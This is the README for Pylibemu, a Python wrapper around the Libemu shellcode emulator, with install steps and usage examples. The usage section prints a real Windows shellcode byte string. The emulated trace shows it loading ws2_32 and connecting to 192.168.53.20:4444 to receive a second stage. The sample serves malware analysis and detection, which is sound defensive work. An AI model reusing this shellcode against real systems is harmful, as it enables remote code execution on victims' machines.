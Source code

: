 
Pylibemu  |travis badge| |landscape badge| |downloads badge| |version badge|
=======================

.. |travis badge| image:: https://img.shields.io/travis/buffer/pylibemu/master.svg
   :target: https://travis-ci.org/buffer/pylibemu
.. |landscape badge| image:: https://landscape.io/github/buffer/pylibemu/master/landscape.png
   :target: https://landscape.io/github/buffer/pylibemu/master
   :alt: Code Health
.. |downloads badge| image:: https://img.shields.io/pypi/dm/pylibemu.svg
   :target: https://pypi.python.org/pypi/pylibemu/
.. |version badge| image:: https://img.shields.io/pypi/v/pylibemu.svg
   :target: https://pypi.python.org/pypi/pylibemu/

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).

Requirements
============

- Python 2.5 or later
- Libemu


Installation
============

To install Pylibemu, just execute:

.. code-block:: console

	$ sudo pip install pylibemu

or alternatively

.. code-block:: console

	$ git clone --recursive https://github.com/buffer/pylibemu.git
	$ sudo python setup.py install

Usage
=====

.. code-block:: pycon

	>>> import pylibemu
	>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
	>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
	>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
	>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
	>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
	>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
	>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
	>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
	>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
	>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
	>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
	>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
	>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
	>>> emulator = pylibemu.Emulator()
	>>> offset = emulator.shellcode_getpc_test(shellcode)
	>>> offset
	4
	>>> emulator.prepare(shellcode, offset)
	>>> emulator.test()
	0
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
     	LPCTSTR lpFileName = 0x0012fe90 => 
           	= "ws2_32";
	) = 0x71a10000;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
         	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     	int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * buf = 0x0012fe88 => 
        	 none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The new Emulator method 'run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute ``offset`` allows to get such
information if needed. 
 
.. code-block:: pycon

	>>> emulator = pylibemu.Emulator()
	>>> emulator.run(shellcode)
	0
	>>> emulator.offset
	4
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
    	 LPCTSTR = 0x01a3f990 => 
           	= "ws2_32";
	) =  1906376704;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
        	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * = 0x01a40870 => 
         	none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The Emulator accepts the optional parameter ``output_size`` which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

.. code-block:: pycon

	>>> emulator = pylibemu.Emulator(1024)

	>>> emulator = pylibemu.Emulator()
	>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute ``emu_profile_truncated`` will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the ``emu_profile_truncated`` attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator ``set_output_size`` 
method and subsequently run the shellcode emulation test again as shown above.


License information
===================

Copyright (C) 2011-2016 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2
